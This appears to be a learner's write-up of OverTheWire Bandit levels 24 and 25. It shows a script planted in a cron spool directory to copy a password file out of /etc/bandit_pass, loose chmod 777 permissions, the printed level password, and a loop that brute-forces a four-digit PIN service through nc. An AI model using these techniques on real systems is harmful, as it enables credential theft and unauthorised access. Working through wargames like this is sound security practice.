 ```
stat (1)             - display file or file system status
stat (2)             - get file status
stat (3type)         - file status
```

well, i got tired of investigating it for more decadous min and cheat-
he used `mktemp -d` but i cant tab or typing the random characters is a drag ...  i tried to use `mkdir /tmp/lopl` then  `cd` into it then `vi script.sh`

`chmod 777 script.sh`
pasted this into it
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/lopl/pass
```
`touch pass`
`chmod 777 pass`
`chmod 777 .`
`cp script.sh /var/spool/bandit24/foo/`

> this was a little difficult, but i did it 

```
bandit23@bandit:/tmp/lopl$ cat pass
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## Level 25
a daemon, 
writing a script [from source](https://mayadevbe.me/posts/overthewire/bandit/level25/)

`mkdir /tmp/b24` cd into it
`vi brute_fp.sh`
paste
```
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```
`chmod +x brute_fp.sh`
`./brute_fp.sh`
`sort result.txt | grep -v "Wrong!"` -v is invert flag meaning it excludes "Wrong!"
but i got this output
```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
